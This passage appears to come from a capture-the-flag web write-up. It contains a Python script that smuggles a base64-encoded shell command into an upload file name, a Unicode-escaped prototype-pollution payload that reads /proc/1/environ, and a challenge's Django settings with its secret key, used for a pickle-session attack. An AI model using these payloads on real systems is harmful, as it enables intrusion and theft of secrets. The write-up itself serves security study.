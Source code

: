 ```javascript
payload="ls /"
# payload="cat /adj*"
payload=";`echo {}|base64 -d`;.jpg".format(base64.b64encode(payload.encode()).decode())
files_data={'file':(payload, 'image/png')}

requests.post(url, data=data, headers=headers)
requests.post(url, headers=headers, files=files_data)
requests.post(url, data=data, headers=headers)
res=requests.post(url+"?file="+payload, data=data, headers=headers)
print(res.text)
```
### EzFlask
python原型链污染 [https://tttang.com/archive/1876/](https://tttang.com/archive/1876/)
过滤了__init__，Unicode编码绕过
payload：
```json
{"username":"mof","password":"mof","\u0000\u005f\u0000\u005f\u0000\u0069\u0000\u006e\u0000\u0069\u0000\u0074\u0000\u005f\u0000\u005f":{"__globals__": {"__file__":"/proc/1/environ"}}}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690018621749-cdad5f48-5feb-4041-bfe8-32a92703fb7c.png#averageHue=%23f5f4f4&clientId=ube290e2a-5937-4&from=paste&height=687&id=u5b42a0c6&originHeight=687&originWidth=1280&originalType=binary&ratio=1&rotation=0&showTitle=false&size=94820&status=done&style=none&taskId=u98ae6f50-7d4c-4046-bfd7-517dd464862&title=&width=1280)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35980243/1690018591377-45ffee6a-1df8-4961-a4d0-c94edaa13d0f.png#averageHue=%236a6968&clientId=ube290e2a-5937-4&from=paste&height=687&id=u57488aea&originHeight=687&originWidth=1291&originalType=binary&ratio=1&rotation=0&showTitle=false&size=127074&status=done&style=none&taskId=u69ad0b04-8501-4379-a0fb-78352749deb&title=&width=1291)
### ez_py
sessioin pickle反序列化
[https://boogipop.com/2023/07/22/DASCTF%202023%20&%200X401%20Web%20WriteUp/#ez-py](https://boogipop.com/2023/07/22/DASCTF%202023%20&%200X401%20Web%20WriteUp/#ez-py)
settings.py
```
"""
Django settings for openlug project.

Generated by 'django-admin startproject' using Django 2.2.5.

For more information on this file, see
https://docs.djangoproject.com/en/2.2/topics/settings/

For the full list of settings and their values, see
https://docs.djangoproject.com/en/2.2/ref/settings/
"""

import os

# Build paths inside the project like this: os.path.join(BASE_DIR, ...)
BASE_DIR = os.path.dirname(os.path.dirname(os.path.abspath(__file__)))


# Quick-start development settings - unsuitable for production
# See https://docs.djangoproject.com/en/2.2/howto/deployment/checklist/

# SECURITY WARNING: keep the secret key used in production non-secret!
SECRET_KEY = 'p(^*@36nw13xtb23vu%x)2wp-vk)ggje^sobx+*w2zd^ae8qnn'

# SECURITY WARNING: don't run with debug turned on in production!
DEBUG = False

ALLOWED_HOSTS = ["*"]


# Application definition

INSTALLED_APPS = [
    # 'django.contrib.admin',
```